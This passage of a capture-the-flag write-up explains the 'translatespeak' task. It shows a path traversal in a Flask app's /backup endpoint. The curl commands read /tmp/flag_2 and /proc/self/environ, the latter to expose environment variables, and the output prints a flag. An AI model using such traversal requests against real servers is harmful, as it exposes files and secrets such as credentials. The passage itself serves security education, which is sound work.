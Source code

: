 ```html
            with open(fname) as f:
                print('Saving file %s in cache' % fname)
                cache[fname] = f.read()
        except FileNotFoundError:
            return '<!-- File not found, sorry --!>'

    return cache[fname]

if __name__ == '__main__':
    app.run(debug=True)

# --!>
```

As we can see one can pass query parameters to the `backup` endpoint and so fetch any file - this is a [path traversal vulnerability](https://www.owasp.org/index.php/Path_Traversal).
There is a suggestion in the code that 2nd and 3rd flags lies in `/tmp` and so flag\_2 can be fetched using this query parameter:

```
$ curl http://jhtc4bsk.jhtc.pl:40222/backup?fname=/tmp/flag_2 -H User-agent:magic

<form action="/translate">
  Translate string:<br>
  <input type="text" name="translate" value=""><br/>
  Source lang:<br>
  <input type="text" name="src" value="pl"><br/>
  Dest lang:<br>
  <input type="text" name="dst" value="en"><br/>
  <input type="submit" value="Submit">
</form>
JHtC4BSK{4w3s0m3_j0b_with_th4t_c0mm4nd_inj3ct1on!}
```

When I created this task, my initial idea was that it should be solved with a command injection but it turned out I forgot to filter flag\_2 from path traversal in the /backup endpoint - that is why we have added flag\_3.

#### translatespeak1

As we could see in the code, the first flag should be located in an environment variable:

```python
flag_1 = os.environ['JHtC4BSK_FIRST_FLAG']
```

We can actually grab it by exploiting path traversal and getting /proc/self/environ file which contains enviroment variables of the current process:

```
$ curl jhtc4bsk.jhtc.pl:40222/backup?fname=/proc/self/environ -H User-agent:magic -o output && cat output
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   565  100   565    0     0    565      0  0:00:01 --:--:--  0:00:01  6726

<form action="/translate">
  Translate string:<br>
  <input type="text" name="translate" value=""><br/>
  Source lang:<br>
  <input type="text" name="src" value="pl"><br/>
  Dest lang:<br>
  <input type="text" name="dst" value="en"><br/>
  <input type="submit" value="Submit">
</form>
```
